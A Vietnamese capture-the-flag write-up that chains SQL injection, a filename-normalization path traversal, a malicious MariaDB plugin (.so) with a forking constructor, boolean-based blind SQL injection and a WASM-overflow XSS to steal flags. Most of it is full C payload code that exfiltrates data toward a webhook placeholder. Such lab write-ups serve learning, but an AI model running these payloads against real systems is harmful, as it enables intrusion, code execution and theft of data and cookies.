



# Overview
Bài này được mình chạy trên local và rất khó đối với mình vì quá trình phân tích và khai thác lỗ hổng tới khi lấy được FLAG ngoài sự hiểu biết của mình, mình phải sự dụng phần lớn sự trợ giúp của AI. Mặc dù vậy thì mình vẫn cảm thấy so good vì mình cũng được học được khá nhiều các cách thức khai thác mới ở trong bài này.
# Analysis
Bài chạy 4 dịch vụ bao gồm: eren-app, mikasa, web, interalbot
FLAG2 mình được tìm tháy trong DB oracle ở dịch vụ eren-app, FLAG1 được tìm thấy trong cookie ở dịch vụ internalbot. Chỉ có một dịch vụ được public trên port 80 là service mikasa

## Service mikasa
Do service trên sử dụng java dể code, mình sẽ dùng bytecode viewer để đọc source. Trong đó, service sử dụng 2 endpoint là `/search` `/upload`.

Endpoint /search : chức năng của endpoint này trả về bản ghi của username trong bảng user. input nhập vào sẽ được nối trực tiếp với query vậy nên sẽ có lỗ hổng SQL injection ở đây. 


mặc dù có SQL injection nhưng service cũng đã filter rất nhiều các syntax SQL bằng list các từ sau: ("master", "change", "information_schema", "sys", "ban", "rand", "char", "schema", "updatexml", "compress", "union", "mid", "sub", "html", "right", "left", "concat", "static", "name_const", "slave", "out", "start", "base64", "status", "py", "delete", "drop", "priv", "execute", "alter", "global", "immediate", "exec", "\\*", "file")
. Flag cũng không nằm ở DB của service này.

Endpoint /upload: chức năng của endpoint này sẽ upload file vào hệ thống lưu ở path /tmp/upload . Nó cũng filter các kí tự thực hiện path traversal như:"\\.\\.", "/", "\\\\", "%2e", "%2f", "%5c", "\u0000", "\\." và sử dụng hàm normalizeFileName(filename) để lấy từng byte trong bảng mã ISO-8859-1 trong tên file AND 127 trở thành dạng ASCII 7 bit. mặc dù vậy nhưng khi để filename là ¯ và ® khi qua hàm normalizeFileName(filename) sẽ được biến đổi thành / và . .Như vậy chúng ta có thể dùng ¯ và ® để thực hiện path traversal để ghi đè file upload vào những nơi nhạy cảm 

Mình đã cố gắng tìm hiểu có thể từ việc upload file để dẫn tới khai thác lấy FLAG bên các dịch vụ eren và internal bot mà không thể. Đến bước này mình đã phải sử dụng phần lớn AI. Theo đó mình biết được một kiểu upload mới là upload file .so thay vì các loại file script phổ biến mà mình biết. Mục đích của việc upload file .so là để cắm vào plugin của mariaDB sau đó khai thác các thông tin cần thiết . Để ghi vào plugin_dir mình cần sử dụng lệnh INSTALL SONAME 'payload.so' trong /search vì nguồn có allowMultiQueries=true . Khi nạp sẽ service sẽ hiện thống báo vì plugin MariaDB không chuẩn nhưng trong file .so có  

```c
__attribute__((constructor))
static void init_payload(void) {
    if (fork() != 0) return;
    setsid();
    system("...");
    _exit(0);
}
```

Constructor chạy ngay khi MariaDB load .so

Trong file .so thực hiện các tác vụ sau: gọi curl đến http://eren-app:3000/api/faction/scan (do eren-app và mikasa cùng nằm trên mạng nội bộ, được biết trong file docker-compose.yml) . trong lệnh curl đó sẽ truyền vào query đến DB eren để lấy flag bằng Boolean-Based.  xong đó gửi qua FLAG qua webhook của mình. Xây dựng payload rồi sử dụng /search với ``` aa';install soname 'payload.so';# ```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define WEBHOOK_URL "https://webhook.site/your_id"
#define BOT_URL "http://172.18.0.3:8000/visit"

static void run_cmd_capture(const char *cmd, char *out, size_t out_size) {
    FILE *fp;
    size_t n;

    if (out_size == 0) {
        return;
    }

    out[0] = '\0';
    fp = popen(cmd, "r");
    if (fp == NULL) {
        snprintf(out, out_size, "ERR");
        return;
    }

    n = fread(out, 1, out_size - 1, fp);
    out[n] = '\0';
    pclose(fp);

    while (n > 0 && (out[n - 1] == '\n' || out[n - 1] == '\r')) {
        out[n - 1] = '\0';
        n--;
    }

    if (out[0] == '\0') {
        snprintf(out, out_size, "EMPTY");
    }
}

static void json_write_escaped(FILE *fp, const char *s) {
    while (*s) {
        switch (*s) {
            case '\\':
                fputs("\\\\", fp);
                break;
            case '"':
                fputs("\\\"", fp);
                break;
            case '\n':
                fputs("\\n", fp);
                break;
            case '\r':
                fputs("\\r", fp);
                break;
            case '\t':
                fputs("\\t", fp);
                break;
            default:
                fputc(*s, fp);
                break;
        }
        s++;
    }
}

static int test_prefix(const char *prefix) {
    char cmd[2048];
    char code[32];

    snprintf(
        cmd,
        sizeof(cmd),
        "curl -m 8 -s -o /dev/null -w '%%{http_code}' --get "
        "'http://eren-app:3000/api/faction/scan' "
        "--data-urlencode \"field=TITLE\\\"||(CASE/**/WHEN/**/EXISTS(SELECT/**/1/**/FROM/**/FLAG_FACTION/**/WHERE/**/FACTION_ID=15/**/AND/**/SECRET/**/LIKE/**/'%s%%')/**/THEN/**/''/**/ELSE/**/TO_CHAR(1/0)/**/END)||\\\"TITLE\" "
        "2>/dev/null",
        prefix
    );

    run_cmd_capture(cmd, code, sizeof(code));
    return strcmp(code, "200") == 0;
}

static void exfiltrate_with_bot(const char *value, const char *param_name) {
    char xss[1024];
    FILE *fp;
    char code[32];
    int i;

    snprintf(
        xss,
        sizeof(xss),
        "",
        WEBHOOK_URL,
        param_name,
        value
    );

    fp = fopen("/tmp/eren_bot_webhook.json", "wb");
    if (fp == NULL) {
        return;
    }

    fputs("{\"comment\":\"", fp);
    for (i = 0; i < 16368; i++) {
        fputc('A', fp);
    }
    json_write_escaped(fp, xss);
    fputs("\"}", fp);
    fclose(fp);

    run_cmd_capture(
        "curl -m 70 -s -o /dev/null -w '%{http_code}' "
        "-X POST -H 'Content-Type: application/json' "
        "--data-binary @/tmp/eren_bot_webhook.json "
        BOT_URL " 2>/dev/null",
        code, sizeof(code)
    );
}

__attribute__((constructor))
static void init_payload(void) {
    const char *alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-";
    char prefix[128];
    char trial[128];
    size_t i;
    int found;
    pid_t pid;

    pid = fork();
    if (pid != 0) {
        return;
    }

    setsid();

    snprintf(prefix, sizeof(prefix), "KMACTF{");

    if (!test_prefix(prefix)) {
        exfiltrate_with_bot("base_fail", "f2_status");
        _exit(0);
    }

    for (i = strlen(prefix); i < sizeof(prefix) - 2; i++) {
        snprintf(trial, sizeof(trial), "%s}", prefix);
        if (test_prefix(trial)) {
            snprintf(prefix, sizeof(prefix), "%s", trial);
            exfiltrate_with_bot(prefix, "f2");
            _exit(0);
        }

        found = 0;
        for (size_t j = 0; alphabet[j] != '\0'; j++) {
            snprintf(trial, sizeof(trial), "%s%c", prefix, alphabet[j]);
            if (test_prefix(trial)) {
                snprintf(prefix, sizeof(prefix), "%s", trial);
                found = 1;
                break;
            }
        }

        if (!found) {
            exfiltrate_with_bot(prefix, "f2_partial");
            _exit(0);
        }
    }

    exfiltrate_with_bot(prefix, "f2_toolong");
    _exit(0);
}

```



Để lấy được FLAG1 thì trong payload của mình cần thực hiện những cái sau: FLAG1 sẽ được lưu vào cookie của bot khi bot truy cập vào http://web:3000
, mình sẽ khai thác lỗ hổng XSS chạy trong browser của bot bằn việc dùng document.cookie để đọc. Lỗ hổng gây ra XSS là hàm innerHTML tại postContent.innerHTML = post.post_content .
Mình sẽ giải thích về quá trình con Bot thực hiện tác vụ: Bot sẽ nhận một chuỗi comment từ /visit sau đó bot mở http://web:3000 set cookie là flag, bấm nút submit với giá trị comment vừa lấy từ /visit. Nhưng front-end sẽ không gửi lên server luôn mà sẽ gọi WASM để xử lí.Frontend ghi sẵn chuỗi gameInfo vào vùng nhớ CONTENT_CACHE. Sau khi gọi game.wasm với userComment, frontend đọc lại chính vùng nhớ đó và dùng giá trị đọc được làm processed_post_content. Do userComment quá dài có thể ghi đè lên CONTENT_CACHE, mình có thể thay thế được nội dung gameInfo bằng HTML tùy ý. mốc offset tới vùng nhớ đó là 16368 . xây dựng payload rồi sử dụng /search với ``` aa';install soname 'payload.so';# ``` để kích hoạt. Dưới đây là kết quả trả về qua webhook:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

static void json_write_escaped(FILE *fp, const char *s) {
    while (*s) {
        switch (*s) {
            case '\\':
                fputs("\\\\", fp);
                break;
            case '"':
                fputs("\\\"", fp);
                break;
            case '\n':
                fputs("\\n", fp);
                break;
            case '\r':
                fputs("\\r", fp);
                break;
            case '\t':
                fputs("\\t", fp);
                break;
            default:
                fputc(*s, fp);
                break;
        }
        s++;
    }
}

static void run_cmd_capture(const char *cmd, char *out, size_t out_size) {
    FILE *fp;
    size_t n;

    if (out_size == 0) {
        return;
    }

    out[0] = '\0';
    fp = popen(cmd, "r");
    if (fp == NULL) {
        snprintf(out, out_size, "ERR");
        return;
    }

    n = fread(out, 1, out_size - 1, fp);
    out[n] = '\0';
    pclose(fp);

    while (n > 0 && (out[n - 1] == '\n' || out[n - 1] == '\r')) {
        out[n - 1] = '\0';
        n--;
    }

    if (out[0] == '\0') {
        snprintf(out, out_size, "EMPTY");
    }
}

__attribute__((constructor))
static void init_payload(void) {
    const char *xss =
        "";
    pid_t pid;
    FILE *fp;
    char code[32];
    char mysql_cmd[512];
    int i;

    pid = fork();
    if (pid != 0) {
        return;
    }

    setsid();

    fp = fopen("/tmp/bot_webhook.json", "wb");
    if (fp != NULL) {
        fputs("{\"comment\":\"", fp);
        for (i = 0; i < 16368; i++) {
            fputc('A', fp);
        }
        json_write_escaped(fp, xss);
        fputs("\"}", fp);
        fclose(fp);
    }

    run_cmd_capture(
        "curl -m 70 -s -o /dev/null -w '%{http_code}' "
        "-X POST -H 'Content-Type: application/json' "
        "--data-binary @/tmp/bot_webhook.json "
        "http://172.18.0.3:8000/visit 2>/dev/null",
        code, sizeof(code)
    );

    snprintf(
        mysql_cmd,
        sizeof(mysql_cmd),
        "mysql -uuser -ppassword mydb -e "
        "\"INSERT INTO user(username,email) VALUES "
        "('bs_wh','%s') "
        "ON DUPLICATE KEY UPDATE email=VALUES(email)\" >/dev/null 2>&1",
        code
    );

    system(mysql_cmd);
    _exit(0);
}

```

